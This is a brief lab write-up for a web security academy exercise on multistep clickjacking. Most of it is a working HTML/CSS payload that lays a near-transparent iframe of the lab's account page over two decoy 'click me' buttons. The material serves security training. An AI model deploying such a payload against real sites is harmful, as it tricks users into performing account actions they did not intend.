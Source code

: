 # [ClickJacking] Lab: Multistep clickjacking (1)

---

![Untitled](%5BClickJacking%5D%20Lab%20Multistep%20clickjacking%20(1)%20d80c8e98dc4d459aa16e70b924d1eaaa/Untitled.png)

since the lab allows the two elements to be shown at once we can easily build apaylaod as such: 

```jsx
<style>
	iframe {
		position:relative;
		width: 400px;;
		height:530;
		opacity: 0.10001;
		z-index: 2;
	}
   .firstlick, .secondlick {
		position:absolute;
		top: 500;
		left:150;
		z-index: 1;
	}
   .secondlick {
		top:320;
		left:150;
	}
</style>
<div class="firstlick">Click me first</div>
<div class="secondlick">Click me next</div>
<iframe src="https://0a4900e1045b674585f544d8006900ff.web-security-academy.net/my-account"></iframe>
```

![Untitled](%5BClickJacking%5D%20Lab%20Multistep%20clickjacking%20(1)%20d80c8e98dc4d459aa16e70b924d1eaaa/Untitled%201.png)